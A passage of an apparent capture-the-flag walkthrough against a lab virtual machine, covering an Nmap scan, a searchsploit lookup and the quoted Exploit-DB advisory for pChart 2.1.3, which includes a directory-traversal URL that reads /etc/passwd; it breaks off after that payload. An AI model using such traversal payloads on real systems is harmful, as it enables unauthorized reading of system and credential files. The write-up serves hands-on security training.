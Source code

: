 
![](https://lh6.googleusercontent.com/nhPAkKBd7gcLHZ4YWzfEFxC3GJOa_MlFKOfPqtilKMPM1ryGOEHPqO3xQpM58WVJwf6tNqRBgonHeV3MUT-jXDuJMnI9mjSKwZdUHhbJmLWo59ZIeyKfXibPB62lVvMfaw)



![](https://lh4.googleusercontent.com/rCJRGJnVlw-OBa4yf7Qy4yRFGFoBiXjHlORyuwpZss9cKO3RLRwGoNswCnYoHwIrqCoqDPhx6MoN4G_PDxMVQCoVYdDKOJd7mSiH_-IfnbjeGP_uXHkmIzeKZ18GJZoABXOFmOrN)


Our target IP is **192.168.56.111**

2.- Having the IP address, use Nmap to identify the services and some vulnerabilities installed in the MV.


![](https://lh6.googleusercontent.com/hS6ddDSH9FLYQrPCkVvZBCWXUGs90A8_Vzueqv9H5vJYiv8MNL3ughBWm6z-ERGhEt1HBYy33LVfAoN24yDFrCDjOoVCtvKY1GPrVSXeT36qDiMMOwo5FDmtkNz7B_3Lq3JPXBXL)



![](https://lh3.googleusercontent.com/Jq6o2wKTOgQdjK-45R8o6UzeV3lNo4uvMP8VVUHTf4Iv73rVEZ17IclYRNUxnGf2qEVtVxJ3Y_V5qem9gIlv6Q975ZgqZw4MtzVUVUue_NgEP12hddK0v42mtZtvenATiw)


We don’t have any interesting vulnerability available out there to gain root permissions. So let’s try to attack the available services.


## Exploitation

Let’s try to attack the port 80 where is running a **Apache 2.2.23**.

Let’s investigate about some metadata:


![](https://lh4.googleusercontent.com/_apgFI0V3wPHBgQTn9PVH3_m3rEcl7i78d3db0l2UPznZBRzJaLJrO6wje32MFSdlWM4IrXEZh2a4T-tGwYBihl8CmRfzqW9b3JHAc5UcMtEf3hHoILSZfxNsqOudCZa9g)


We found an interesting service called pChart 2.1.3 with the following path **pChart2.1.3/index.php **

Let’s do a searchsploit of this service:


![](https://lh4.googleusercontent.com/Qvy42gTDwBG8l9ICqQaKdf8vFpyXMruhK5vNOp6NNs5aocjXWyopxsCEIRsyjPFeYLJ6WGR7rdLQSswP8eADB5ytsB9RzE4EAl0gWF40Y4d-pdJh7JPdiWPA9cabQSwSYg)


Reading the exploit with:

```shell
cat /usr/share/exploitdb/exploits/php/webapps/31173.txt_


[0] Summary:

PHP library pChart 2.1.3 (and possibly previous versions) by default

contains an examples folder, where the application is vulnerable to

Directory Traversal and Cross-Site Scripting (XSS).

It is plausible that custom built production code contains similar

problems if the usage of the library was copied from the examples.

The exploit author engaged the vendor before publicly disclosing the

vulnerability and consequently the vendor released an official fix

before the vulnerability was published.

[1] Directory Traversal:

**"hxxp://localhost/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd"**

```
